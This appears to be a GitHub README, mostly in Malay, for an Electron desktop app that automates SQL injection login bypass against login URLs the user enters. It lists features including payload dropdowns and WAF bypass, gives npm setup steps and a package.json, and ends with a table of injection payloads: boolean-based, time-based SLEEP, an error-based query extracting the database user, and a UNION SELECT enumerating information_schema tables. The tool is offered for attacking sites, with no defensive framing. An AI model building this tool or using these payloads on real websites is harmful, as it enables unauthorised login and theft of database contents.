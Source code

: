 # sqli-electron-gui
-versi GUI untuk SQLi Login Bypass guna Electron 

# Versi Desktop App (Electron)
 - Fungsi	Status
 - Input URL login	✅ Textbox
 - Auto detect form fields	✅
 - Senarai payload bypass	✅ Dropdown / textarea
 - Result response	✅ Output log
 - Snapshot result	✅ Boleh preview dalam tab
 - Simpan HTML	✅ Download butang
 - Multi-target list	⏳ Akan tambah
 - Proxy / header custom	⏳ Akan tambah
 - Bypass WAF	✅ (aktif)
 
 # Struktur Versi Electron GUI
 
- 📁 my-sqli-gui
  - ├── main.js (Electron main process)
  - ├── preload.js
  - ├── index.html
  - ├── renderer.js (frontend logic)
  - ├── assets/
  - └── logic/
    - └── bypass.js (payload handler)


      ## Struktur Projek
         - 📁 sqli-electron-gui/
            - ├── package.json
            - ├── main.js           // Electron Main Process
            - ├── preload.js        // Bridge ke renderer
            - ├── index.html        // GUI Utama
            - ├── renderer.js       // Logik frontend
            - ├── sqli.js           // SQLi form detector & executor
            - └── output/           // Folder untuk simpan snapshot

# ⚙️ LANGKAH 1 – Setup Projek Electron
- mkdir sqli-electron-gui
- cd sqli-electron-gui
  ### Init Projek + Install Electron
  - npm init -y
  - npm install axios cheerio qs electron
  - 
  ### Update package.json
``` json
{
  "name": "sqli-electron-gui",
  "version": "1.0.0",
  "description": "SQLi Login Bypass Tool (Electron GUI)",
  "main": "main.js",
  "scripts": {
    "start": "electron ."
  },
  "author": "bossku",
  "license": "MIT",
  "dependencies": {
    "axios": "^1.6.8",
    "cheerio": "^1.0.0-rc.12",
    "electron": "^27.0.0",
    "qs": "^6.11.2"
  }
}

```
# ⚙️ LANGKAH 2
```bash
npm install
npm start
```



![test](https://github.com/user-attachments/assets/5bb0604a-aac0-4817-ae5c-cde354489451)


#Disable Gpu 

![error](https://github.com/user-attachments/assets/1642b6b0-60d5-45f5-a808-8b06926bd891)

```bash
set ELECTRON_DISABLE_GPU=1
npm start
```
# Update (soon bila stable ) 
```bash
Teknik	Payload contoh	Cara detect
✅ Boolean-Based	' OR 1=1-- vs ' OR 1=2--	Banding HTML
✅ Time-Based	' OR IF(1=1, SLEEP(3), 0)--	Ukur delay response
✅ Error-Based	' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT(CHAR(58,97,58), (SELECT user()), CHAR(58,98,58), FLOOR(RAND()*2)) x FROM information_schema.tables GROUP BY x)a)--	Detect error
✅ DIOS	' UNION SELECT null, table_name FROM information_schema.tables--	Extract table
```

![dumping](https://github.com/user-attachments/assets/d8fee266-b7a0-4530-a36f-ee2eb51ab680)
